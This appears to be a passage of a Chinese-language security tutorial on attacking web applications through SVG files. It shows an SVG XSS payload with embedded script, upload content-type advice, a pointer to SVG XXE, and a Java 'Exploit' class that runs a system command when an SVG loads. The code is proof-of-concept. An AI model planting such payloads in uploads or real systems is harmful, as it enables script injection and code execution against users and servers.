 svg文件示例：

```html
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
</svg>
```



### SVG XSS

SVG文件还支持嵌入式javascript代码,利用这点，可以构造xss payload

```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("1");
  </script>
</svg>
```

注意： 上传时，注意内容类型设置为：`Content-Type: image/svg+xml`







### SVG XXE

前面说了 SVG 是基于 XML 的矢量图，因此可以支持 Entity (实体) 功能，因此可以用来 XXE,具体利用参考https://my.oschina.net/hetianlab/blog/4723160





### SVG执行java代码

首先写个命令执行的而已java代码

```java
import org.w3c.dom.events.Event;
import org.w3c.dom.events.EventListener;

import org.w3c.dom.svg.EventListenerInitializer;
import org.w3c.dom.svg.SVGDocument;
import org.w3c.dom.svg.SVGSVGElement;

import java.util.*;
import java.io.*;

public class Exploit implements EventListenerInitializer {
    public Exploit() {
    }
    public void initializeEventListeners(SVGDocument document) {
        SVGSVGElement root = document.getRootElement();
        EventListener listener = new EventListener() {
            public void handleEvent(Event event) {
                try {
                    Process p = Runtime.getRuntime().exec("calc");
                } catch (Exception e) {}
            }
        };
        root.addEventListener("SVGLoad", listener, false);
    }
```